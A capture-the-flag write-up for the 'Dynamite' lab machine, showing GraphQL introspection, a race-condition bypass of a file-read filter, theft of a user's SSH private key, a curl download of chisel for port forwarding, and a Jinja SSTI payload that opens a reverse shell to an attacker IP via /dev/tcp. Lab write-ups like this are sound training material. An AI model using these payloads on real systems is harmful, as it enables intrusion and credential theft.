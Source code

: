 ```yaml
---
title: 'Dynamite Writeup'
date: '2025-06-10'
tags: ['Race Condition', 'SSTI', 'LFR', 'GraphQL', 'Linux', 'Hacking Club']
draft: false
summary: 'The Dynamite machine is vulnerable to Race condition, SSTI, LFR and more. '
images: ['/static/images/dynamite-writeup-images/default.png']
authors: ['default']
---
```


## ![Dynamite](/static/images/dynamite-writeup-images/default.png)

## Port Scanning

```bash
export IP= ...
nmap -sV -sC -p- -v $IP --min-rate 3000
```

![dynamite](/static/images/dynamite-writeup-images/image.png)

Only the ports 22 (SSH), 80 (HTTP) and 8080 (HTTP) was found opened.

---

## Enumeration

When we open the aplication, we notice a POST request for the graphql api

![dynamite 1](/static/images/dynamite-writeup-images/image1.png)

Adding the domain in our /etc/hosts config file

```python
sudo vim /etc/hosts
```

![dynamite 2](/static/images/dynamite-writeup-images/image2.png)

Now we can access the GraphQL api at port 8080

![dynamite 3](/static/images/dynamite-writeup-images/image3.png)

Usually, the main problem with GraphQL is the Introspection, and we can enumerate everything in the API.

To do so, we just pass the query in the POST request:

```python
{"query":"{ __schema { types { name kind description fields { name description args { name description type { name kind ofType { name kind } } } type { name kind ofType { name kind } } } } } }"}
```

I used **curl** in this case:

```python
curl -s -X POST http://dynamite.hc:8080/graphql \
  -H 'Content-Type: application/json' \
  --data-raw '{"query":"{ __schema { types { name kind description fields { name description args { name description type { name kind ofType { name kind } } } type { name kind ofType { name kind } } } } } }"}' | jq > results.json

```

![dynamite 4](/static/images/dynamite-writeup-images/image4.png)

Now we have a problem, we need to filter the results, because its a lot of data and not everything is usefull.

```python
cat results.json | jq '.data.__schema.types[]
  | select(.fields != null)
  | {type: .name, fields: [.fields[] | {field: .name, args: [.args[]?.name]}]}'

```

![dynamite 5](/static/images/dynamite-writeup-images/image5.png)

Checking the results, we can see there is a query named `file`.

LFR? 😋

![dynamite 6](/static/images/dynamite-writeup-images/image6.png)

After testing, we see some kind of protection blocking our Local File Read.

When i checked the **robots.txt** file, i noticed the file **main.go**

![dynamite 7](/static/images/dynamite-writeup-images/image7.png)

The **main.go** file is the application source code.

![dynamite 8](/static/images/dynamite-writeup-images/image8.png)

I asked GPT to fix the lines for me.

Analysing the code, we can see the regex blocking our LFR:

![dynamite 9](/static/images/dynamite-writeup-images/image9.png)

However, since is a go application, we can test for race condition, recently the channel LiveOverFlow posted about this Go vulnerability.

https://youtu.be/wVknDjTgQoo

This application in specifically have an sleep in it, which make the things easier for us.

Basically, we need to pass two requests.

Request 1:

We send the actual file that we want to read.

![dynamite 10](/static/images/dynamite-writeup-images/image10.png)

Right after send the first request, we send another one, since we can read the **main.go** file, i read it.

Request 2

![dynamite 11](/static/images/dynamite-writeup-images/image11.png)

And we bypassed the filter with success 😋

![dynamite 12](/static/images/dynamite-writeup-images/image12.png)

---

## Foot Hold

Reading the /etc/passwd file, we noticed an user named **dyna**. It was possible get the ssh key.

```python
query={file(path:"/home/dyna/.ssh/id_rsa"){content}}
```

![dynamite 13](/static/images/dynamite-writeup-images/image13.png)

With the id_rsa key in hands, we had our initial access

```python
chmod 600 id_rsa
ssh dyna@172.16.12.67 -i id_rsa
```

![dynamite 14](/static/images/dynamite-writeup-images/image14.png)

---

## Privillege Escalation

Internal application running at port 5000

```python
ss -tulnp
```

![dynamite 15](/static/images/dynamite-writeup-images/image15.png)

I used chisel to port foward the application, so we can access in our machine.

[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

**Attacker Machine**

```python
python3 -m http.server 80
```

![dynamite 16](/static/images/dynamite-writeup-images/image16.png)

**Target Machine**

```python
curl 10.0.31.150/chisel -o /tmp/chisel
chmod +x /tmp/chisel
```

![dynamite 17](/static/images/dynamite-writeup-images/image17.png)

Now lets start de chisel server on our machine

```python
./chisel server -p 9000 --reverse
```

![dynamite 18](/static/images/dynamite-writeup-images/image18.png)

Then, we set the client to foward the connection on the target machina

```python
./chisel client 10.0.31.150:9000 R:9023:127.0.0.1:5000
```

![dynamite 19](/static/images/dynamite-writeup-images/image19.png)

Now we can check the application from our machine

![dynamite 20](/static/images/dynamite-writeup-images/image20.png)

After passing the payload `{{7*7}}`, the application reflects the number 49, confirming a **SSTI (Server Side Template Injection)** vulnerability

![dynamite 21](/static/images/dynamite-writeup-images/image21.png)

It was possible to get an RCE with the SSTI, passing the payload:

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("/bin/bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'").read().zfill(417)}}{%endif%}{% endfor %}

```

![dynamite 22](/static/images/dynamite-writeup-images/image22.png)

```python
nc -lnvp 1337
```

![dynamite 23](/static/images/dynamite-writeup-images/image23.png)

---

## Proof

![dynamite 24](/static/images/dynamite-writeup-images/image24.png)
